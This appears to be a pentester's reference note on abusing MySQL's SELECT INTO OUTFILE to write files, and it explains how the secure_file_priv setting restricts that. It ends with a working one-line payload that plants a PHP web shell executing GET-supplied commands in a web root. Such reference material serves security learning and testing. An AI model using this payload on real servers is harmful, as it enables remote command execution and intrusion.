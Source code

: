 ```yaml
---
tags:
  - Enumeration
  - TCP
  - MySQL
  - SQL
  - Concepts
---
```

If we have the appropriate privileges, we can attempt to write a file using [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) in a local directory. See [[File include (LFI) (RFI)]] for remote code execution.

## Restrictions

In `MySQL`, a global system variable [secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv) limits the effect of data import and export operations, such as those performed by the `LOAD DATA` and `SELECT … INTO OUTFILE` statements and the [LOAD_FILE()](https://dev.mysql.com/doc/refman/5.7/en/string-functions.html#function_load-file) function. These operations are permitted only to users who have the [FILE](https://dev.mysql.com/doc/refman/5.7/en/privileges-provided.html#priv_file) privilege.

`secure_file_priv` may be set as follows:
- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```shell-session
show variables like "secure_file_priv";
```

## Usage

```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

